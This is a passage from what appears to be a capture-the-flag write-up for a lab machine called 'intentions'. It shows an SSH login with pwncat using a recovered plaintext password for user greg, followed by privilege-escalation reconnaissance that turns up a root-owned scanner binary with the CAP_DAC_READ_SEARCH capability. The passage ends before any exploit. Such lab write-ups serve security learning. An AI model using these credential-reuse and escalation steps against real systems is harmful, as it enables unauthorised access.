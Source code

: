 
Although the new credentials didn't provide any additional insights on the website, they were reused for Greg's local account. As a result, logged in through SSH.

```bash
(local) pwncat$ connect greg:Gr3g1sTh3B3stDev3l0per!1998!@intentions.htb
[06:04:53] intentions.htb:22: upgrading from /usr/bin/dash to /usr/bin/bash                          manager.py:957
[06:04:54] intentions.htb:22: loaded known host from db                                              manager.py:957
(local) pwncat$
(remote) greg@intentions:/home/greg$ id
uid=1001(greg) gid=1001(greg) groups=1001(greg),1003(scanner)
(remote) greg@intentions:/home/greg$
```

---

## Privilege Escalation to root

---

Unfortunately, Greg lacks sudo privileges

```bash
(remote) greg@intentions:/home/greg$ sudo -l
[sudo] password for greg:
Sorry, user greg may not run sudo on intentions.
```

Greg, interestingly, is also a member of the scanner group. While searching for files accessible to the group, discovered the scanner binary, owned by root.

```bash
(remote) greg@intentions:/home/greg$ id
uid=1001(greg) gid=1001(greg) groups=1001(greg),1003(scanner)
(remote) greg@intentions:/home/greg$ find / -group scanner 2>/dev/null
/opt/scanner
/opt/scanner/scanner
(remote) greg@intentions:/home/greg$ ls -la /opt/scanner/scanner
-rwxr-x--- 1 root scanner 1437696 Jun 19 11:18 /opt/scanner/scanner
(remote) greg@intentions:/home/greg$ file /opt/scanner/scanner
/opt/scanner/scanner: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=a7sTitVjvr1qc4Ngg3jt/LY6QPsAiDYUOHaK7gUXN/5aWVPmSwER6KHrDxGzr4/SUP48whD2UTLJ-Q2kLmf, stripped
(remote) greg@intentions:/home/greg$ getcap /opt/scanner/scanner
/opt/scanner/scanner cap_dac_read_search=ep
```

The capability the file has, `CAP_DAC_READ_SEARCH` essentially means it can read any file on the box.

>     CAP_DAC_READ_SEARCH
>          •  Bypass file read permission checks and directory read
>             and execute permission checks;
>          •  invoke open_by_handle_at(2);
>          •  use the linkat(2) AT_EMPTY_PATH flag to create a link
>             to a file referred to by a file descriptor.

